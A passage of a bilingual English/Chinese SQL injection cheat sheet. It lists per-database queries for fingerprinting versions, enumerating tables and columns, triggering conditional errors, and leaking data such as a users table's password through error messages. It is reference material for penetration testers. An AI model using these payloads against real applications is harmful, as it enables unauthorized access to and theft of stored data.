 ```sql
Oracle	SELECT banner FROM v$version
        SELECT version FROM v$instance

Microsoft	SELECT @@version

PostgreSQL	SELECT version()

MySQL	SELECT @@version
```

## Database contents
You can list the tables that exist in the database, and the columns that those tables contain.
可以列出数据库中存在的表以及这些表包含的列。

```sql
Oracle	    SELECT * FROM all_tables
            SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'

Microsoft	SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

PostgreSQL	SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

MySQL	    SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

## Conditional errors布尔报错
You can test a single boolean condition and trigger a database error if the condition is true.
您可以测试单个布尔条件，如果条件为真，则触发数据库错误。

```sql
Oracle	    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual

Microsoft	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END

PostgreSQL	1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)

MySQL	    SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
```

## Extracting data via visible error messages报错注入
You can potentially elicit error messages that leak sensitive data returned by your malicious query.
您可能会引发泄漏恶意查询返回的敏感数据的错误消息。

```sql
Microsoft	SELECT 'foo' WHERE 1 = (SELECT 'secret')

> Conversion failed when converting the varchar value 'secret' to data type int.
PostgreSQL	SELECT CAST((SELECT password FROM users LIMIT 1) AS int)

> invalid input syntax for integer: "secret"
MySQL	SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))

> XPATH syntax error: '\secret'
```
## Batched (or stacked) queries